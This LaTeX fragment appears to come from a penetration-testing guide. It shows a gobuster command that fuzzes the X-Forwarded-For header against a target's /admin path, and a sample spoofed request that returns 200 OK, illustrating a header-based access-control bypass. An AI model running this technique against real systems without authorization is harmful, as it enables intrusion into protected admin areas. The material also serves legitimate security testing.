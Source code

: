 \documentclass[11pt]{article}
\begin{document}
Custom header fuzzing (testing for header-based access-control bypass):
\begin{lstlisting}[style=http]
gobuster fuzz -u https://target.com/admin \
  -H "X-Forwarded-For: FUZZ" -w bypass_ips.txt
\end{lstlisting}

Realistic HTTP request rendered from the above (auth-bypass attempt via trusted-header spoofing):
\begin{lstlisting}[style=http]
GET /admin HTTP/1.1
Host: target.com
X-Forwarded-For: 127.0.0.1
Cookie: session=<SESSION>
Connection: close

HTTP/1.1 200 OK
Content-Length: 6120
\end{lstlisting}

\begin{center}
\end{center}
\begin{center}
\small\textit{Figure 2: Typical discovery escalation order --- widen the attack surface (dns, vhost) before drilling into content (dir) and finally parameter-level logic (fuzz).}
\end{center}

\section{Tools \& Methodology}
\end{document}
